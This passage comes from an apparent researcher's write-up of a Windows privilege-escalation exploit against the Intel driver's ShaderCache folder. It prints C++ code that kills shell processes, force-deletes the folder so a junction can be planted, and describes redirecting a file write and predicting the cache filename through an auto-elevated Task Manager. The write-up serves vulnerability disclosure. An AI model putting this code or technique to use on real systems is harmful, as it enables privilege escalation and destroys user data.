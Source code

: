 The final piece to the puzzle was deleting all the files that were being created by processes that the Intel driver worked with.  I basically setup a loop that continued to check if certain procesces were still running and if so, kill them and try and delete files in the directory.  I also placed a check for when the directory is empty, which at that point means we can create our junction!  This is a race condition btw, as we have to be quick to create our junction since `sihost.exe` and `ShellHost.exe` are constantly writing to this directory.  😆

```cpp
void checkdir()
{
    std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";

    WinExec("cmd.exe /c TASKKILL /F /IM explorer.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM sihost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ShellHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ApplicationFrameHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);
    
    std::wstring checkEmpty = GetMostRecentFile(dir);

    if (checkEmpty.empty()) {
        std::wcerr << L"Good news! No files found in the directory :)  Deleting directory and creating the junction!\n";
        WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
        Sleep(1000);
    }
    else {
        std::wcout << L"There are still files...continuing to kill tasks and delete stuff...Remaining file: " << checkEmpty << std::endl;
        Sleep(1000);
        checkdir();
    }
}
```

There's another element to this exploit I should mention is also required.  Not only are we creating a junction, but we will also be performing an arbitrary write where we redirect a file create / file write operation to a directory and file of our choosing after creating the junction.  But in order to do so, we need to know the name of a file that gets created by the Intel driver in advance.  That was another tricky aspect of this exploit, I'll admit.  Why is it tricky?  Well, the filename is random...sort of.  It changes after logoff and rebooting the machine.  Here's how I addressed that issue.  I kickoff an instance of Task Manager which is autoelevated, and Taskmanager immediately starts writing to the ShaderCache directory.  I get the most recent file written to the directory, which in this case, would be the file(s) written by TaskManager.  I then save that to a `.txt` file to read later.  Check it out:  
